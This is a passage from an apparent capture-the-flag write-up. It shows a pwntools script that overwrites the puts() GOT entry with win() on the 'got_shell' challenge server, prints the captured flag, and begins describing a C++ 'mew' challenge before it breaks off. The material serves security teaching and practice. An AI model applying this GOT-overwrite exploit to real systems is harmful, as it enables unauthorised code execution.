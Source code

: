 ![](https://i.ibb.co/17QT33S/wheregotshell5.png)

Ok. Now we have the pieces in place. We can see earlier in the `main()` function that a final `puts("Okay, exiting now...\n");` is called at the end before the program exits. This means theoretically we could use the 2 inputs to overwrite `puts()` in the GOT with the address of `win()`, then as the program exits, `win()` would be called. Let's try out our theory:
```py
#!usr/bin/env python
from pwn import *

e = context.binary = ELF("./got_shell")

puts = hex(e.got.puts).lstrip("0x")

win_addr = "401176"

r = remote("34.87.186.254",26879)

r.recvline()
r.recvline()
r.sendline(puts)
r.recvline()
r.sendline(win_addr)
r.recvline()
print("Flag: "+r.recvuntil("}"))
r.close()
```

We run our code and voila,

![](https://i.ibb.co/gyTDCCL/wheregotshell6.png)


We obtained the flag.

Flag: `greyhats{G0t_C4nc3r_y3T?_ad8123fa}`

# mew | 6 solves 497 pts
The final challenge that I solved is a lot more complex that the previous few, at least to me. This one is a C++ challenge, which made it slightly more annoying to do. We are provided the source code, binary and makefile of the challenge. Let's take a look at our source code first. From a glance, it looks like a simple calculator as the challenge describes itself, with 5 options: read a number, write a number, sort numbers, re-initiate running mean and print statistics (running mean). Read/write a number would just accept an index input followed by an integer input. It's worthy to note that the code was handled this way:
```c++
#define MAXSZ 100

...

int index; num value;
std::cout << "Enter index: ";
std::cin >> index;
if (index >= MAXSZ || index < 0) {
    std::cout << "Bad index!" << std::endl;
    continue;
}
std::cout << "Enter value: ";
std::cin >> value;
ARR[index] = value;
```
